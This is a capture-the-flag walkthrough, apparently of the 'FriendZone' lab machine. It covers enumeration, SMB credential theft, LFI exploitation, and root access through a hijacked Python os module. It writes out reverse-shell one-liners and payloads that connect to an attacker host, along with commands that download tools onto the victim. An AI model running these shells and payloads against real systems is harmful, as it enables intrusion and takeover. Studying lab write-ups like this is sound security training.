# Enumeration

## Run Nmap Scan

```bash
nmap -p- -T4 10.129.103.91

"
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-29 08:40 BST
Nmap scan report for 10.129.103.91
Host is up (0.16s latency).
Not shown: 65528 closed tcp ports (conn-refused)
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
53/tcp  open  domain
80/tcp  open  http
139/tcp open  netbios-ssn
443/tcp open  https
445/tcp open  microsoft-ds
"
```

## View Website




The default url is different from http website. Here we can assume that the use of http and https are different.

## Directory Bruteforcing (Run Gobuster)

```bash
gobuster dir -u http://10.129.103.91/ -w /usr/share/wordlists/dirb/common.txt 

"
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.103.91/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2023/09/29 08:43:58 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 292]
/.htpasswd            (Status: 403) [Size: 297]
/.htaccess            (Status: 403) [Size: 297]
/index.html           (Status: 200) [Size: 324]
/robots.txt           (Status: 200) [Size: 13] 
/server-status        (Status: 403) [Size: 301]
/wordpress            (Status: 301) [Size: 318] [--> http://10.129.103.91/wordpress/]
Progress: 4495 / 4615 (97.40%)                                                  Progress: 4525 / 4615 (98.05%)                                                  Progress: 4555 / 4615 (98.70%)                                                  Progress: 4585 / 4615 (99.35%)                                                  Progress: 4614 / 4615 (99.98%)                                                                                                                                       
===============================================================
2023/09/29 08:45:16 Finished
===============================================================
"
```

```bash
gobuster dir -u https://10.129.103.91/ -w /usr/share/wordlists/dirb/common.txt -k 

"
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://10.129.103.91/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2023/09/29 08:51:26 Starting gobuster in directory enumeration mode
===============================================================
/server-status        (Status: 403) [Size: 302]
                                               
===============================================================
2023/09/29 08:52:47 Finished
===============================================================
"
```

The result of http and https are different!

### Goto Robots.txt



## Enumerating Samba

```bash
smbmap -H 10.129.103.91

"
[+] Guest session   	IP: 10.129.103.91:445	Name: friendzone.red                                    
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	NO ACCESS	Printer Drivers
	Files                                             	NO ACCESS	FriendZone Samba Server Files /etc/Files
	general                                           	READ ONLY	FriendZone Samba Server Files
	Development                                       	READ, WRITE	FriendZone Samba Server Files
	IPC$                                              	NO ACCESS	IPC Service (FriendZone server (Samba, Ubuntu))
"
```

### Fetch all the files inside general

```bash
smbget -R smb://10.129.103.91/general
cat creds.txt

"
admin:WORKWORKHhallelujah@#
"
```

After fetching “general” folder, we found the creds information. While, there was nothing inside “Development” folder

## Enumerating FTP

```bash
ftp 10.129.103.91

"
Connected to 10.129.103.91.
220 (vsFTPd 3.0.3)
Name (10.129.103.91:root): anonymous
331 Please specify the password.
Password:
530 Login incorrect.
Login failed.
"
```

```bash
ftp 10.129.103.91

"
Connected to 10.129.103.91.
220 (vsFTPd 3.0.3)
Name (10.129.103.91:root): admin
331 Please specify the password.
Password:
530 Login incorrect.
Login failed.
ftp>
"
```

Both "anonymous” and "admin” login failed.

## DNS Enumeration

### Trying DNS Zone Transfer

```bash
dig axfr friendzone.red @10.129.103.91

"
; <<>> DiG 9.18.12-1~bpo11+1-Debian <<>> axfr friendzone.red @10.129.103.91
;; global options: +cmd
friendzone.red.		604800	IN	SOA	localhost. root.localhost. 2 604800 86400 2419200 604800
friendzone.red.		604800	IN	AAAA	::1
friendzone.red.		604800	IN	NS	localhost.
friendzone.red.		604800	IN	A	127.0.0.1
administrator1.friendzone.red. 604800 IN A	127.0.0.1
hr.friendzone.red.	604800	IN	A	127.0.0.1
uploads.friendzone.red.	604800	IN	A	127.0.0.1
friendzone.red.		604800	IN	SOA	localhost. root.localhost. 2 604800 86400 2419200 604800
;; Query time: 163 msec
;; SERVER: 10.129.103.91#53(10.129.103.91) (TCP)
;; WHEN: Fri Sep 29 10:56:30 BST 2023
;; XFR size: 8 records (messages 1, bytes 289)
"
```

### Include the DNS information into our hosts file

```bash
sudo echo "10.129.103.91 administrator1.friendzone.red, hr.friendzone.red, uploads.friendzone.red" >> /etc/hosts
```

## Visit friendzone.red



### Visit Uploads.friendzone.red







I uploaded README.txt, but I couldn't find the file. Guess it's just a fake website.

# Exploitation



Let's use the credential we got from the smb enumeration.

```bash
username: admin
password: WORKWORKHhallelujah@#
```



Manually redirect the url to `https://administrator1.friendzone.red/dashboard.php`



Here it requires a param of `image_id` and `pagename`. Let's try with the default params.



Bottom the website, we can see the timestamp which we gave inside the `pagename`.

 Assuming the `timestamp` is a php file, if we try with `dashboard.php` without the php file extension.



The website is now recursive. We can conclude that the website has a LFI vulnerability.

## Generating a PHP Reverse Shell

```bash
msfvenom -p php/reverse_php LHOST=<Attacker IP> LPORT=4444 -f raw -o reverse.php
```

## Uploading our reverse shell to the victim system using samba.

```bash
smbclient //10.129.103.91/Development -U "admin"

"
smb: \> put reverse.php
"
```

## Listen to Reverse Shell and Exploit

Try the URL to execute the reverse shell file.

[https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=/etc/Development/reverse](https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=/etc/Development/reverse)

```bash
nc -lvnp 4444

"
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.129.103.91.
Ncat: Connection from 10.129.103.91:57116.
whoami
www-data
"
```

## Generating a TTY Shell

For some reason, I couldn't get a tty shell using the `python -c 'import pty;pty.spawn("/bin/bash")'` command. So I made a new reverse shell listener and sent a reverse shell through python.

```bash
nc -lvnp 4443
```

```bash
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<Attacker IP>",4443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
```



# Privilege Escalation

## Finding interesting file using LinPeas

```bash
# From the attacker machine
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
python -m http.server 8000
```

```bash
# From the victim machine
wget http://<attacker ip>:8000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```



## Monitor Processes

### Download PSPY

[https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64](https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64)

```bash
# From the attacker machine
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64
python -m http.server 8000
```

```bash
# From the victim machine
wget http://<attacker ip>:8000/pspy64
chmod +x pspy64
./pspy64

"
2023/09/29 16:20:01 CMD: UID=0     PID=34159  | /usr/bin/python /opt/server_admin/reporter.py 
2023/09/29 16:20:01 CMD: UID=0     PID=34158  | /bin/sh -c /opt/server_admin/reporter.py 
2023/09/29 16:20:01 CMD: UID=0     PID=34157  | /usr/sbin/CRON -f
"
```

After waiting for few minute, we found that `reporter.py` is running every few minute interval in root permission.

## Analyzing Reporter.py

```bash
# /opt/server_admin/reporter.py
#!/usr/bin/python

import os

to_address = "admin1@friendzone.com"
from_address = "admin2@friendzone.com"

print "[+] Trying to send email to %s"%to_address

#command = ''' mailsend -to admin2@friendzone.com -from admin1@friendzone.com -ssl -port 465 -auth -smtp smtp.gmail.co-sub scheduled results email +cc +bc -v -user you -pass "PAPAP"'''

#os.system(command)

# I need to edit the script later
# Sam ~ python developer

```

Here `reporter.py` is importing an os library which we have a writing permission to.

## Creating a os.py that sends a reverse shell to the attacker

```python
# From the attacker machine
cp /usr/lib/python2.7/os.py os.py
vi os.py
```

Insert the code below to the end of the `os.py`

```python
import subprocess
subprocess.Popen('TF=$(mktemp -u);mkfifo $TF && telnet 10.10.14.23 4445 0<$TF | sh 1>$TF', shell=True)
```


## Listen to Reverse Shell and Exploit

```bash
# From the victim's machine
cd /usr/lib/python2.7
rm -rf os.py
wget http://<attacker ip>:8000/os.py
```

```bash
nc -lvnp 4445

"
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::4445
Ncat: Listening on 0.0.0.0:4445
Ncat: Connection from 10.129.103.91.
Ncat: Connection from 10.129.103.91:39852.
# whoami
whoami
root
"
```

Wait until the `reporter.py` gets executed.